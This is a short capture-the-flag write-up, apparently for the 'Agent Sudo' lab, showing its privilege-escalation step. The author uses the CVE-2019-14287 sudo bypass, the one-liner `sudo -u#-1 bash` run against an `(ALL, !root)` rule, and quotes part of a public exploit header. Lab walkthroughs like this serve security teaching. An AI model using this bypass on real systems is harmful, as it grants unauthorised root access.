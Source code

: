 ![image.png](../../../assets/AGENTSUDO/image%204.png)

Got nothing to do with this picture!

**Privilege Escalation**

```cpp
james@agent-sudo:~$ sudo -l                                       
[sudo] password for james:                                        
Matching Defaults entries for james on agent-sudo:                
    env_reset, mail_badpass,                                      
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

I checked for the sudo version and got: **"Sudo version 1.8.21p2"**

I looked up, and there is a privelege escalation vulnerability for this version of sudo: [CVE-2019-14287](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)

So, I ran the following command:

```jsx
sudo -u#-1 bash
```

```cpp
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
# Version : Sudo <1.8.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287

'''Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash

So user hacker can't run /bin/bash as root (!root)

User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL
```